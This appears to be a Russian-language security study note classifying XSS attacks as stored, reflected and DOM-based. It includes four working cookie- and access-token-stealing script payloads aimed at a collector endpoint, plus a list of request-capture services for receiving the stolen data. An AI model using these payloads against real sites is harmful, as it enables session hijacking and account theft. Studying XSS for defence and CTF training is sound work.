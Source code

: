 # clientattacks

Created: February 15, 2025 1:46 PM

### Классификация XSS - атак

- **Stored** — когда вредоносный скрипт через пользовательский ввод сохраняется в БД приложения и потом тем или иным
способом запускается у клиента, посетившего страницу, которая генерится
на основе данных из той самой БД.
- **Reflected** — при такой уязвимости база не участвует в доставке вредоносного
скрипта жертве. Эксплойт нигде не хранится, атака обычно происходит
через URL, когда например вредоносный скрипт пробрасывается через query
параметры запроса, «отражается от сервера», где в процессе формирования
страницы скрипт добавляется в тело ответа и пользователь получает
страницу с уже встроенным в неё скриптом.
- **XSS на основе DOM** — особенность данного типа атаки в том, что она эксплуатирует уязвимости
DOM (очевидно). В отличии от двух других типов, в этом страница
на сервере не меняется. Нам приходит совершенно безопасный HTML, но JS,
который уже запустится на клиенте, отработает неправильно из‑за
внедренного в него скрипта. Другими словами, главное отличие XSS
на основе DOM в том, что эксплойт добавляется на страницу в рантайме,
в момент запуска JS и он никогда не покидает пределы браузера.

> Смысл XSS в большинстве случаев — украсть конфиденциальные данные или токены доступа.
> 

```bash
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
```

Для сбора запросов можно воспользоваться сервисами:

- https://public.requestbin.com/r
- https://webhook.site/
- https://beeceptor.com/
- https://requestcatcher.com/
- https://app.interactsh.com/

![xss_classify.png](clientattacks%2019b021737a898081a498f0e8eeb31dff/xss_classify.png)

---

[own_xss](clientattacks%2019b021737a898081a498f0e8eeb31dff/own_xss%2019b021737a898080bb66db8140d38375.md)

[XSS_stealcookie_basic_example](clientattacks%2019b021737a898081a498f0e8eeb31dff/XSS_stealcookie_basic_example%2019b021737a8980af843befffcbbc657a.md)

[Dirty Laundry writeup](clientattacks%2019b021737a898081a498f0e8eeb31dff/Dirty%20Laundry%20writeup%2019d021737a89803b87d2e875d54a3900.md)

[filterevasion.txt](clientattacks%2019b021737a898081a498f0e8eeb31dff/filterevasion.txt)